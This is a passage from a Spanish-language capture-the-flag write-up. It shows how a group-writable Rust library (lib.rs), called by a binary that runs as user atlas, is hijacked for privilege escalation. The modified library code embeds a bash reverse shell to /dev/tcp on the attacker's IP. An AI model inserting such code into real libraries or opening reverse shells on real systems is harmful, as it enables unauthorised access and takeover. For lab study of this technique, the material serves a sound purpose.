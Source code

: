 ```rust
    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```

Si vemos sus permisos, en la parte de grupo nos dice que hay permisos de lectura y escritura para el grupo **silentobserver**:

```ruby
-rw-rw-r-- 1 atlas silentobserver  732 May  4 17:12 lib.rs
```

Y nosotros somos de ese grupo:

```ruby
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
```

Sabiendo que la libreria se manda a llamar en el binario **tipnet**, y ese binario se ejecuta como **Atlas**, podemos modificar el codigo de la libreria para ejecutar un comando y que nos de una rev shell.

Y esto podria ser un: **Rust library hijacking (RW permissions)**.

Vamos a modificar el codigo para que ejecute un comando:

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/<tu IP>/444 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .output()
        .expect("ERROR");

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}
```
